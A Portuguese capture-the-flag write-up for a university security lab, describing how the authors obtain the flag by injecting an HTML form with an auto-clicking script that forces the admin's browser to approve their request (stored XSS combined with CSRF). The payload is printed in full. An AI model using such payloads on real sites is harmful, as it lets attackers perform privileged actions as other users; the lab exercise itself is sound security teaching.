






# CTF6 - XSS + CSRF

## Preparação

Após entrar no link `http://ctf-fsi.fe.up.pt:5004` , reparamos que podiamos introduzir um input para pedir uma flag:



*Imagem do início*



*Imagem do server 5004*



*Imagem do server 5005 (admin)*

Após analisar o código no servidor admin, reparamos que existe um from que faz um post request ao servidor admin e que tem a seguinte estrutura:

```html
<form method="POST" action="/request/abc36ceee9310230f2783b4032fc88a9f4a69d87/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>

```

Tendo isso em conta e o facto de não haver input sanitization no servidor, decidimos no input colocar o seguinte código:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/número_do_pedido/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" enabled>
        
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>

<!-- número do pedido vai variar de pedido a pedido, suscetivel a alterações -->
```
Após introduzir o que foi escrito anteriormente, aparece-nos uma mensagem de erro em que não temos permissões para aceder ao recurso pedido:



Isso deve-se ao facto de nós estarmos a executar o código, pois nós não temos permissões, por isso queremos que seja só feito do lado do admin ( que tem permissões ). Para chegar a esse objetivo, desativamos a execução do javascript no browser:



Repetindo os passos, conseguimos obter a flag (dando refresh à página):



Obtemos assim a flag.
